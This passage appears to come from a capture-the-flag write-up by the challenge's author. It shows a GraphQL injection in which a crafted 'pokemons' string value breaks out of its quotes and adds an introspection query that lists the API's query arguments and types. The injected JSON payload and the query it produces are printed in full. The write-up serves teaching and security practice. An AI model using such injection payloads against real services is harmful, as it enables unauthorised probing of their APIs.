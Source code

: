 We can get what arguments are required by introspection (once again).

By reading [the specification of GraphQL](https://spec.graphql.org/October2021/#sec-The-__Field-Type) and making use of previous knowledge, we can craft up the below payload to obtain the list of arguments and its corresponding type.

```json
{
    "pokemons":["\") {id} __type(name:\"Query\") { name fields { name args { name type { name kind ofType { name kind } } } } } _0:pokemon(name:\""],
    "compares":["id"]
}
```
```graphql
{
    _1:pokemon(name:"") {
        id
    } 
    __type(name:"Query") {
        name
        fields {
            name
            args {
                name
                type {
                    name
                    kind
                    ofType {
                        name
                        kind
                    }
                }
            }
        }
    }
    _0:pokemon(name:"") {
        id
    }
}
```

![](49_step_6.png)

[^1]: In fact these are test queries I intended to left behind. Maybe act as an easter egg.
[^2]: The reason I didn't put the flag in the field `flag` is because I don't want people to be guessy and guess the fields of `Digimon` without introspection. However, if you can get the query method names and other stuff, getting all fields from `Digimon` isn't a issue here.
